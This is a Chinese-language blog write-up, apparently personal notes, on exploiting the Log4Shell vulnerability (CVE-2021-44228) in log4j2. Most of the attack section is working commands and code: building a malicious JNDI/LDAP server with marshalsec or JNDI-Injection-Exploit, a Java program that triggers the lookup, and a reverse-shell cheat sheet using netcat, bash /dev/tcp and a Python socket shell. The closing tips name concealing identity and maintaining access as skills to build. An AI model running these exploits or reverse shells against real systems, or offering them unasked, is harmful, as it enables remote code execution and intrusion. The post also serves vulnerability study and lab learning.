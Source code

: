 ```yaml
---
title: CVE-2021-44228
date: 2021-12-13 21:27:06
tags:
---
```



漏洞详情
-----
### 受影响的版本
all log4j-core versions >=2.0-beta9 and <=2.14.1
### 基本原理
由于对应版本的log4j2中，打印日志时会通过JNDI请求LDAP数据来构造更精美的日志输出，而如果用户输入的内容包含${jndi:ldap://host:port/exp}，则会被log4j2获取并执行，只要运行一个恶意的JNDI服务器，在含有该漏洞的地方注入这段代码，那么将会以运行该Java程序的用户权限执行该指令（RCE）
### exploit
#### 构建后端恶意JDNI服务（方法1）：
1. 编译Exploit.java为字节码，同目录下使用python3的http服务器，这一步是为了让受影响的服务器远程获取我们需要执行的恶意代码
```
javac Exploit.java
python3 -m http.server 8888
```
2. 使用marshalsec来创建一个恶意的JNDI服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

#### 构建后端恶意JDNI服务（方法2）：[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned"
```

#### 简单构造存在漏洞的java+log4j2环境
```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        //高版本的jdk默认trustURLCodebase为false，因此不能成功利用JNDI注入
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```
运行即可触发漏洞，受害者把本该打印的文本内容作为JNDI解析，获取远程服务器的Java字节码，并在本地执行（可以直接反弹shell）

### Tips
+ 本地exp没有问题，远程exp有问题（尝试各个网络位置，各种jdk版本，最后换了一个恶意JNDI完事）
+ 从尝试echo hello world没反应到尝试touch /tmp/pwned再到反弹shell
+ 使用JNDI injection exploit来搭建恶意JNDI服务器来利用漏洞，不要用上面github仓库那个方法，会遇到超多问题（例如：java版本不对，没法远程利用，reference class name: foo，或者jdk1.8需要maven构建，又是一堆问题，不要尝试，直接使用下面这个repo来exp）[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
+ 命令会被作为参数传入Runtime.getRuntime().exec()，所以需要确保命令传入exec()方法可执行。（使用bash -c "echo hello > /tmp/pwned"等）

反弹shell
-----
### 攻击方
```
nc -vnl 2222
```

### 受害者

#### Netcat
```
rm /tmp/f && mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 2222 > /tmp/f
```
或者
```
nc 127.0.0.1 2222 -e /bin/bash
```
#### Bash
```
bash -c 'bash -i >& /dev/tcp/127.0.0.1/2222 0>&1'
```
#### Python
+ 源代码
```
import os, socket, subprocess
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2222))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess.call(['/bin/bash', '-i'])
```
+ 命令行直接执行
```
python -c \"import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash', '-i'])\"
```

工具总结
-----
+ Java, JDK：高版本可能存在问题，尽量使用低版本（***插入图片***）
+ maven：使用pom.xml构建Java工程（***插入图片***）
+ log4j：日志管理工具
+ dnslog：接受带出来的访问信息
+ make：精简测试
+ tmux：分屏同时测试
+ github：创建repo来记录

技术总结
-----
### 漏洞的生命周期
+ 漏洞一直存在（无人发现）
+ 黑客发现0day自己保存
+ 漏洞公开，exp简单，伤害性大，影响范围极广（性价比高，范围广）
+ 缓解方法出现
+ 补丁出现，大家开始修复漏洞
+ 漏洞影响范围降低，但仍有漏网之鱼

### Log4Shell时间线
|日期|事件|
|----|----|
|2021-12-09|曝出漏洞，掀起话题|
|2021-12-10|开始出现大量exp|
|2021-12-11|bbs elastic search，熬夜本地exp成功（远程exp不行）|
|2021-12-12|还是不行，找到其他恶意JNDI，继续尝试|
|2021-12-13|远程exp成功，反弹shell成功（但不能任意反弹shell）|

### 一些知名漏洞
|Name|service|CVE|
|----|-------|---|
|Heartbleed|openssl|CVE-2014-0160|
|Eternalblue|smb|CVE-2017-0144(MS17-010)|
|BlueKeep|rdp|CVE-2019-0708|
|Log4Shell|log4j2|CVE-2021-44228|

### Tips
+ 今后要重点加强的内容，不能机会来了才磨剑（隐匿身份、维持访问、反弹shell、尝试并分类总结各种漏洞）
+ 测试基本功能后，再深入（如dnslog能不能用，）
+ 明确攻击方和防守方的边界
+ 写博客所感
	+ 初学者使用vim时千万不要同时开着中文输入法，会彻底毁掉你对vim的好感！！！
	+ markdown的每个段落后需要有个分段，不然格式会乱

参考资源
-----
+ [Github Stargazer](https://starchart.cc/)
+ [maven plugin error](https://stackoverflow.com/questions/32368758/log4j2-java-lang-noclassdeffounderror-org-apache-logging-log4j-logmanager)
+ [https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0)
